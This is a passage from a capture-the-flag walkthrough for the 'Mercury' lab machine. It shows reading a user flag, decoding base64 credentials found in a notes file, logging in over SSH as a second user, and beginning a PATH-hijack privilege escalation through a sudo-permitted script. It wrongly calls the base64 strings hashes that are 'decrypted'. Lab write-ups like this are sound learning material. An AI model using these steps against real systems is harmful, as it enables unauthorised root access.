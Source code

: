<img width="955" height="66" alt="VirtualBox_kali-linux-2025 1c-virtualbox-amd64_30_08_2025_19_59_25" src="https://github.com/user-attachments/assets/0c417a98-bb20-42bb-96c1-f39b94655818" />

Once we gain access we can use `ls` to list all available directories and/or files.
Here, we find one directory called mercury_proj and a file called user_flag.txt.
Using `cat` we can open the file and see it's contents.

## Step 3: Prigiledge escalation

First we need to know the rights and priviledges of the current user, we can use `sudo -l` for this.

<img width="625" height="60" alt="VirtualBox_kali-linux-2025 1c-virtualbox-amd64_07_09_2025_23_01_22" src="https://github.com/user-attachments/assets/661fd89b-b9c8-4b5c-9280-be0bcd88b1d9" />
From this message we can see that the account has no permissions to run sudo commands.
Now we can change the directory to the mercury_proj directory ( `cd mercury_proj` ) and then use `ls` to see the available files and directories.

We can see a file called notes.txt and using the `cat` command we can open the file and see its contents.

```
webmaster@mercury :~ /mercury_proj$ cat notes.txt
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg=
```
These are base64 hash files that we can decrypt as follows;

```
webmasteramercury :~ /mercury_proj$ echo "bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK" | base64 -d
mercuryisthesizeof0.056Earths
webmaster@mercury :~ /mercury_proj$ echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg=" | base64 -d
mercurymeandiameteris4880km
```
Open another tab and input the following;

```
(kali@kali)-[~]
$ ssh linuxmaster@10.38.1.112
```
This changes the you to the user linuxmaster and using the command `sudo -l` we can see the priviledges the user has.

<img width="830" height="130" alt="image" src="https://github.com/user-attachments/assets/0db9d268-8ce3-4c0f-8f5f-fb95ebefa944" />

We can see the user has root priviledges to the check_syslog.sh bash script in the usr/bin directory.
Using cat we can read the contents of the bash script and we can find that it is a tail program for reading the last 10 syslog entries.
We also know that the check_syslog.sh could be run in a preserve environment meaning we can abuse the environment path variable.
Then we can also create a symbolic link that points to the bin.
We do that using the command `ln -s /usr/bin/vi tail` 

`ln` → Create link.
